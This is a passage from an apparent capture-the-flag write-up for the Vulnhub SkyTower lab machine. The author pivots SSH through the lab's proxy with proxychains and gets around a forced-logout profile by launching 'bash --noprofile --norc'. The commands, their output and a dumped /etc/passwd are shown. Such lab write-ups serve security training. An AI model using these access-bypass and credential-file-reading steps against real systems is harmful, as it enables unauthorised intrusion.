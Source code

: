 ```

Funds have been withdrawn
Connection to 192.168.56.101 closed.
                                                                                   
```

how can i cry cant get the access direct Oops i have to use chat GPT to give me the reason i try to execute the command and see if i can gain the execution

```
┌──(cyberkid㉿kali)-[~/Desktop/Vulnhub/skytower]
└─$ proxychains ssh -oHostKeyAlgorithms=+ssh-rsa john@192.168.56.101 "id; whoami; echo \$SHELL"

[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  192.168.56.101:3128  ...  192.168.56.101:22  ...  OK
john@192.168.56.101's password: 
uid=1000(john) gid=1000(john) groups=1000(john)
john
/bin/bash

```

for multiple testing and chatgpt game this and loged me sucessfully

```
┌──(cyberkid㉿kali)-[~/Desktop/Vulnhub/skytower]
└─$ proxychains ssh -oHostKeyAlgorithms=+ssh-rsa john@192.168.56.101 -t "bash --noprofile --norc"

[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  192.168.56.101:3128  ...  192.168.56.101:22  ...  OK
john@192.168.56.101's password: 
bash-4.2$ 

```
	HAPPY HAPPY HAPPY

## Enumaration

#indentfying the users by cat the /etc/passwd
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
sshd:x:101:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:102:105:MySQL Server,,,:/nonexistent:/bin/false
john:x:1000:1000:john,,,:/home/john:/bin/bash
```